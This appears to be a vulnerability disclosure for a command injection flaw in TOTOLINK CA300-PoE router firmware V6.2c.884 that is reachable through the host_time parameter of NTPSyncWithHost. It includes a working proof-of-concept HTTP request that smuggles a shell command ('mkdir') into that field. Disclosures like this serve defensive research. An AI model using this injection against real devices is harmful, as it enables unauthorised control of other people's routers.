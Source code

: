 # TOTOLINK  CA300-PoE V6.2c.884 was discovered to contain a command injection vulnerability via the host_time parameter in the function NTPSyncWithHost

## Description

`TOTOLINK` Router **CA300-PoE V6.2c.884** was found to contain a command injection vulnerability in `NTPSyncWithHost`.

## ![image-20230112103759214](images/1.png)

## Firmware information

* Manufacturer's address:https://www.totolink.net/
* Firmware download address : https://www.totolink.net/home/menu/detail/menu_listtpl/download/id/139/ids/36.html



## Affected version

**Version: V6.2c.884**

![image-20230112103905821](images/2.png)

## Vulnerability details

POC:

```
POST /cgi-bin/cstecgi.cgi HTTP/1.1
Host: 192.168.0.254
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:108.0) Gecko/20100101 Firefox/108.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 100
Origin: http://192.168.0.254
Connection: keep-alive
Referer: http://192.168.0.254/adm/network_daig.asp?timestamp=1673492576260
Cookie: SESSION_ID=2:1673492439:2

{"topicurl":"NTPSyncWithHost", "host_time":"2022-01-01 20:12:43';mkdir /test9999;'"}
```

![image-20230112164910582](images/3.png)

![image-20230112165037971](images/4.png)

Folder created successfully

![image-20230112165248306](images/5.png)